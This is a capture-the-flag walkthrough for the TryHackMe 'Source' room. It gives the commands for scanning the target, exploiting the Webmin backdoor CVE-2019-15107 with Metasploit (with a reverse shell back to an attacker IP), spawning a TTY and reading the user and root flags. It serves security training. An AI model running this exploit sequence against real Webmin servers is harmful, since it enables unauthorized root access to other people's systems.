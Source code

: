 # [Source](https://tryhackme.com/room/source)

## Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

# Embark

## Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

### user.txt

1. Start by performing initial network enumeration to identify open ports and running services on the target system

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Examine the Webmin service to identify the specific version running

```bash
curl -k -I https://<TARGET_IP>:10000/
```

[SCREEN02]

3. Based on the enumeration results, research known vulnerabilities for the identified Webmin version. The CVE-2019-15107 backdoor vulnerability affects Webmin versions 1.882 through 1.921. Launch Metasploit and configure the exploit module. Once the exploit succeeds, navigate to the user directory and capture the first flag

```bash
msfconsole
search webmin
use exploit/linux/http/webmin_backdoor
show options
set LHOST <ATTACKER_IP>
set RHOSTS <TARGET_IP>
set RPORT 10000
set SSL true
exploit

whoami
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/dark/user.txt
```

[SCREEN04]

---

### root.txt

1. Access the root directory and retrieve the final flag

```bash
cat /root/root.txt
```

[SCREEN05]
